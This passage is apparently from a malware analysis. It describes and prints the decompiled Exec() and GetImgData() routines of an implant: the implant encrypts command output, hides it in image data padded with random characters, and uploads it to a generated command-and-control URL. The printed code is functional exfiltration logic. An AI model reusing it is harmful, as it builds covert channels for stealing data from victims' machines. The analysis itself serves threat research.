 ### Exec() and GetImgData()
These two functions are very related. The first one - Exec() - take care of data such as the command output (cmdout) generated that can be generated by function like
Assembly.Load or Program.rAsm and call getImgData(). With getImgData() output perform a new HTTP call and sends back the cmdout to the malicious actor.

getImgData() part of ImgGen Class hides the encrypted cmdout in a image file. Take an images as buffer the final result will be:
```real_image|fill_with_RandomString until 1500 bytes|encrypted_cmdout```

```java
  public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null) {
    if (string.IsNullOrEmpty(key))
      key = Program.pKey;
    string cookie = Program.Encryption(key, taskId);
    byte[] imgData = Program.ImgGen.GetImgData(Convert.FromBase64String(encByte == null ? Program.Encryption(key, cmd, true) : Program.Encryption(key, (string) null, true, encByte)));
    int num = 0;
    while (num < 5)
    {
      ++num;
      try
      {
        Program.GetWebRequest(cookie).UploadData(Program.UrlGen.GenerateUrl(), imgData);
        num = 5;
      }
      catch
      {
      }
    }
  }
```

```java
  internal static class ImgGen {
    private static Random _rnd = new Random();
    private static Regex _re = new Regex("(?<=\")[^\"]*(?=\")|[^\" ]+", RegexOptions.Compiled);
    private static List<string> _newImgs = new List<string>();

    internal static void Init(string stringIMGS) => Program.ImgGen._newImgs = Program.ImgGen._re.Matches(stringIMGS.Replace(",", "")).Cast<System.Text.RegularExpressions.Match>().Select<System.Text.RegularExpressions.Match, string>((Func<System.Text.RegularExpressions.Match, string>) (m => m.Value)).Where<string>((Func<string, bool>) (m => !string.IsNullOrEmpty(m))).ToList<string>();

    private static string RandomString(int length) => new string(Enumerable.Repeat<string>("...................@..........................Tyscf", length).Select<string, char>((Func<string, char>) (s => s[Program.ImgGen._rnd.Next(s.Length)])).ToArray<char>());

    internal static byte[] GetImgData(byte[] cmdoutput)
    {
      int num = 1500;
      int length = cmdoutput.Length + num;
      byte[] sourceArray = Convert.FromBase64String(Program.ImgGen._newImgs[new Random().Next(0, Program.ImgGen._newImgs.Count)]);
      byte[] bytes = Encoding.UTF8.GetBytes(Program.ImgGen.RandomString(num - sourceArray.Length));
      byte[] destinationArray = new byte[length];
      Array.Copy((Array) sourceArray, 0, (Array) destinationArray, 0, sourceArray.Length);
      Array.Copy((Array) bytes, 0, (Array) destinationArray, sourceArray.Length, bytes.Length);
      Array.Copy((Array) cmdoutput, 0, (Array) destinationArray, sourceArray.Length + bytes.Length, cmdoutput.Length);
      return destinationArray;
    }
  }
}
```